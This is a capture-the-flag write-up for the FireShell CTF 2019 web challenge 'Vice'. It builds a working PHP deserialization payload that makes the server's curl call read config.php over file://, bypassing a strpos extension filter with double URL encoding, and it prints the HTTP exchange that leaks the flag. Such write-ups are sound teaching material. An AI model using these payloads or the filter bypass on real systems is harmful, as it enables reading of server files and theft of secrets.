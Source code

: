 # FireShell CTF 2019 – Vice

* **Category:** web
* **Points:** 269

## Challenge

> [http://68.183.31.62:991/](http://68.183.31.62:991/)

## Solution

The challenge will give you a PHP script.

```php
<?php
//require_once 'config.php';

class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;

  function __construct($method,$url){
    $this->method = $method;
    $this->url = $url;
  }

  function doit(){
    
    $this->host = @parse_url($this->url)['host'];
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      echo $result;
    }else{
      die(":)");
    }
  }
  function __destruct(){
    if(in_array($this->method,array("doit"))){
 
      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }
}
if(isset($_GET["gg"])) {
    @unserialize($_GET["gg"]);
} else {
    highlight_file(__FILE__);
}
```

The flag is probably stored into `config.php` file, hence it must be printed via the *curl* execution.

To perform this, the `doit` method must be executed. That method is invoked into `__destruct()` function if present in the `$method` attribute of the destructed object.

The `unserialize` method must be abused to craft an object with desired parameters.

To serialize an object that can be used for the exploit, the following script can be executed.

```php
class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;
}

print serialize(new SHITS);
```

It will print the following.

```
O:5:"SHITS":5:{s:10:"SHITSurl";N;s:13:"SHITSmethod";N;s:11:"SHITSaddr";N;s:11:"SHITShost";N;s:11:"SHITSname";N;}
```

Now you have to customize the script in order to exploit the challenge.

First of all, the `$method` attribute must be set to `doit`.

```php
class SHITS{
  private $url;
  private $method = "doit";
  private $addr;
  private $host;
  private $name;
}

print serialize(new SHITS);
```

The next attribute to set is `$url`. Analyzing the script, you can discover the presence of a check on localhost address. To bypass this check, the URL could be crafted based on the default path for web sites on Apache servers: `file:///var/www/html/config.php`.

```php
class SHITS{
  private $url = "file:///var/www/html/config.php";
  private $method = "doit";
  private $addr;
  private $host;
  private $name;
}

print serialize(new SHITS);
```

At this point, another check present in the script must be bypassed. The second checks is referred to the file extension; in particular, the extension `.php` will be blocked.

Luckily, the check is performed via `strpos` and there is a well-known strange behavior, based on which double URL-encoded chars are not considered by `strpos` but are considered valid by *curl* ([https://bugs.php.net/bug.php?id=76671&edit=1](https://bugs.php.net/bug.php?id=76671&edit=1)). So it is sufficient to replace the `.` char with `%252e`.

```php
class SHITS{
  private $url = "file:///var/www/html/config.php";
  private $method = "doit";
  private $addr;
  private $host;
  private $name;
}

print str_replace(".", "%252e", serialize(new SHITS));
```

The produced payload will be the following.

```
O:5:"SHITS":5:{s:10:"SHITSurl";s:31:"file:///var/www/html/config%252ephp";s:13:"SHITSmethod";s:4:"doit";s:11:"SHITSaddr";N;s:11:"SHITShost";N;s:11:"SHITSname";N;} 
```

After this operation the payload must be modified according to the `str_replace`.

The string `file:///var/www/html/config.php` is composed by 31 chars, with the replace operation it will become `file:///var/www/html/config%252ephp`; the GET operation performed server side will automatically perform a URL decode translating `%25` to `%`, hence the string will be `file:///var/www/html/config%2ephp` composed by 33 chars.

The length of the string into the payload must be updated accordingly.

```
O:5:"SHITS":5:{s:10:"SHITSurl";s:33:"file:///var/www/html/config%252ephp";s:13:"SHITSmethod";s:4:"doit";s:11:"SHITSaddr";N;s:11:"SHITShost";N;s:11:"SHITSname";N;}
```

At this point, the payload can be URL-encoded with the following script (don't forget to update the length of the URL string).

```php
class SHITS{
  private $url = "file:///var/www/html/config.php";
  private $method = "doit";
  private $addr;
  private $host;
  private $name;
}

print str_replace(".", "%252e", urlencode(serialize(new SHITS)));
```

The payload will be the following.

```
O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D
```

The GET request and response will be the following.

```
GET /?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D HTTP/1.1
Host: 68.183.31.62:991
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=ugifl5ke3p183slvcbcs6r5054
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Date: Sun, 27 Jan 2019 16:19:07 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.26
Vary: Accept-Encoding
Content-Length: 137
Connection: close
Content-Type: text/html

<?php
if($_SERVER['REMOTE_ADDR'] !== '::1' || $_SERVER['REMOTE_ADDR'] !== '127.0.0.1'){
echo "aaawn";
}else{
$flag ="F#{wtf_5trp0s_}";
}
```

The flag is the following.

```
F#{wtf_5trp0s_}
```
